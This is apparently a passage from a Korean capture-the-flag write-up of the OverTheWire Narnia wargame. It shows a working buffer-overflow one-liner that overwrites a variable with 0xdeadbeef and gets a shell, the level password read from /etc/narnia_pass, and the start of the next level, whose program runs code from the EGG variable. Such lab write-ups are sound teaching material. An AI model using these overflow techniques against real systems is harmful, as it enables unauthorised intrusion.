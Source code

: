 ```c
        exit(1);
    }

    return 0;
}
```

<br>

평범한 bof 문제로 buf에 'a' 24글자 입력해주면 바뀜.  

따라서 마지막 4글자만 ```0xdeadbeef``` 넣어주면 됨.

<br>

```
narnia0@narnia:/narnia$ (python -c 'print "a"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ
val: 0xdeadbeef
id 
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
cat /etc/narnia_pass/narnia1
efeidiedae
```

<br>

```
password : efeidiedae
```

<br>
<br>

## Level 1 -> Level 2

<br>

```
ssh narnia1@narnia.labs.overthewire.org -p 2226
```

<br>

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
